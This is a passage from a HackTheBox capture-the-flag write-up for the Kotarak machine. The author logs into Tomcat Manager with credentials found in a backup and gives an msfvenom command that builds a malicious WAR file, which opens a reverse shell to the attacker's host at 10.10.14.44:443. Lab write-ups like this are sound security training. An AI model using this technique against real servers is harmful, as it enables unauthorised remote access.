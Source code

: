 
I use the creds from the backup file and I get in:

![manager-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/manager-25.png)


From here we can deploy a WAR application which contains a reverse shell. A common way of exploting Tomcat Manager access to get a shell on the target system.


The first thing I do is create the malicious `WAR` app, I do this using `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.44 LPORT=443 -f war -o shell.war
```
